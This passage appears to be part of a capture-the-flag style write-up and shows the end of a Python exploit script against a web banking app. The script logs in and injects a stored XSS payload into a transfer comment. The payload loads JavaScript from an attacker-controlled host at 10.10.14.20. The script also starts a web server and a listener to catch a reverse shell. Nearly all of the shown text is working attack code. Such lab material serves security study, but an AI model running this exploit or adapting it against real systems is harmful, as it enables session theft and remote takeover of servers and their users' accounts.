 ```py
    print("[+] Just Login ! [+]")
    url = "http://%s:80/login.php" %rhost
    headers = {"Content-Type": "application/x-www-form-urlencoded"}
    data = {"username": "0x4rt3mis", "password": "123456", "pounds": "Submit Query"}
    r.post(url, headers=headers, data=data, proxies=proxies, cookies=r.cookies)
    print("[+] Logged In ! [+]")
    
def launchXSS(rhost):
    print("[+] Let's trigger XSS ! [+]")
    url = "http://%s:80/user/transfer.php" %rhost
    headers = {"Content-type": "application/x-www-form-urlencoded"}
    data = {"fromId": "3", "toId": "1", "amount": "1", "comment": "<script src=\"http://10.10.14.20/0x4rt3mis.js\"></script>"}
    r.post(url, headers=headers, cookies=r.cookies, data=data, proxies=proxies)
    print("[+] Triggered, wait 120 seconds ! [+]")
    os.system("sleep 120")

def main():
    # Parse Arguments
    parser = argparse.ArgumentParser()
    parser.add_argument('-t', '--target', help='Target ip address or hostname', required=True)
    parser.add_argument('-li', '--localip', help='Local ip address or hostname', required=True)
    parser.add_argument('-lp', '--port', help='Local port to receive shell', required=True)
    args = parser.parse_args()

    rhost = args.target
    lhost = args.localip
    lport = args.port

    '''Here we call the functions'''
    # Set up the web python server
    webServer()
    # Set up the handler
    thr = Thread(target=handler,args=(int(lport),rhost))
    thr.start()
    # Create the JS payload
    createPayloadJS(lhost,lport)
    # Create Account
    createAccount(rhost)
    # Login
    loginAccount(rhost)
    # Trigger and wait
    launchXSS(rhost)

if __name__ == '__main__':
    main()
```

# Source Code Analysis
